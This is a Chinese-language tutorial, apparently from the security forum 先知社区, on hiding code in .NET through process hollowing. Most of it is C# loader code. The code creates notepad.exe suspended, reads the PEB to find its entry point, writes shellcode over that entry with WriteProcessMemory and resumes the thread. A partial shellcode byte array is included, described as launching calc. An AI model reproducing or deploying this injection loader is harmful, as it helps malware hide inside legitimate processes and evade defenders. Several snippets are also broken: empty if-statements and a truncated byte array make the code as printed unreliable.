

# .NET 隐藏技术之傀儡进程 - 先知社区

.NET 隐藏技术之傀儡进程

- - -

傀儡进程就是修改某进程的内存数据，向内存中写入 Shellcode，并修改进程的执行流程，使其转向执行恶意的 Shellcode。

# 1 相关函数

## ZwQueryInformationProcess

可以获取指定进程的信息等。

```plain
[DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
private static extern int ZwQueryInformationProcess(IntPtr hProcess, int procInformationClass, ref PROCESS_BASIC_INFORMATION procInformation, uint ProcInfoLen, ref uint retlen);
```

## ReadProcessMemory

从指定进程的内存中读取数据。

```plain
[DllImport("kernel32.dll", SetLastError = true)]
static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);
```

## ResumeThread

恢复线程的执行。

```plain
[DllImport("kernel32.dll", SetLastError = true)]
private static extern uint ResumeThread(IntPtr hThread);
```

# 2 实现隐藏

要想成功创建傀儡进程，有两个技术要点，首先调用 CreateProcess 函数创建进程，并且设置该进程的标志为 CreateSuspended，表示挂起等待进程，这时主线程处于挂起状态，不会线下执行代码。

```plain
public PROCESS_INFORMATION StartProcess(string path)
{
STARTUPINFO startInfo = new STARTUPINFO();
PROCESS_INFORMATION procInfo = new PROCESS_INFORMATION();
uint flags = CreateSuspended | DetachedProcess ;
if (!CreateProcess((IntPtr)0, path, 0, (IntPtr)0, true, flags, (IntPtr)0, (IntPtr)0,    ref     startInfo, out procInfo))
return procInfo;
}
```

接着调用 ZwQueryInformationProcess 和 ReadProcessMemory 函数定位进程中的模块地址。

```plain
public IntPtr FindEntry(IntPtr hProc)
{
    var basicInfo = new PROCESS_BASIC_INFORMATION();
    uint tmp = 0;
    var success = ZwQueryInformationProcess(hProc, 0, ref basicInfo, (uint)(IntPtr.Size * 6), ref tmp);
    IntPtr readLoc = IntPtr.Zero;
    var addrBuf = new byte[IntPtr.Size];
    if (IntPtr.Size == 4)
    {
        readLoc = (IntPtr)((Int32)basicInfo.PebAddress + 8);
    }
    else
    {
        readLoc = (IntPtr)((Int64)basicInfo.PebAddress + 16);
    }
    IntPtr nRead = IntPtr.Zero;
    if (!ReadProcessMemory(hProc, readLoc, addrBuf, addrBuf.Length, out nRead) || nRead == IntPtr.Zero)
    if (IntPtr.Size == 4)
        readLoc = (IntPtr)(BitConverter.ToInt32(addrBuf, 0));
    else
        readLoc = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));
    pModBase_ = readLoc;
    if (!ReadProcessMemory(hProc, readLoc, inner_, inner_.Length, out nRead) || nRead == IntPtr.Zero)
    return GetEntryFromBuffer(inner_);
}
```

最后调用 WriteProcessMemory 函数将我们的 Shellcode 写入到远程挂起的进程中，再使用 ResumeThread 函数恢复主线程，让进程按照修改后的流程继续执行，这样系统就会执行注入的 Shellcode 代码。

```plain
public void MapAndStart(PROCESS_INFORMATION pInfo)
{
    var tmp = MapSection(pInfo.hProcess, PageReadWriteExecute, IntPtr.Zero);
    if (tmp.Key == (IntPtr)0 || tmp.Value == (IntPtr)0)
        throw new SystemException("向目标进程写入失败！");
    remotemap_ = tmp.Key;
    remotesize_ = tmp.Value;
    var patch = BuildEntryPatch(tmp.Key);
    try
    {
        var pSize = (IntPtr)patch.Key;
        IntPtr tPtr = new IntPtr();
        if (!WriteProcessMemory(pInfo.hProcess, pEntry_, patch.Value, pSize, out tPtr) || tPtr == IntPtr.Zero)
    }
    finally
    {
        if(patch.Value != IntPtr.Zero)
            Marshal.FreeHGlobal(patch.Value);
    }
    var tbuf = new byte[0x1000];
    var nRead = new IntPtr();
    if (!ReadProcessMemory(pInfo.hProcess, pEntry_, tbuf, 1024, out nRead))
        throw new SystemException("Failed!");
    var res = ResumeThread(pInfo.hThread);
    if (res == unchecked((uint)-1))
}
```

以运行本地计算器的 Shellcode 为例，在程序主入口创建傀儡进程"notepad.exe"，

```plain
static void Main(string[] args)
{
byte[] shellcode = new byte[193] {
0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,
0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52
}
var ldr = new Loader();
ldr.Load("notepad.exe", shellcode);
```

启动测试后成功弹窗，说明 Shellcode 代码成功执行，启动 calc 进程。如图

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123154430-3e48f85e-b9c3-1.png)
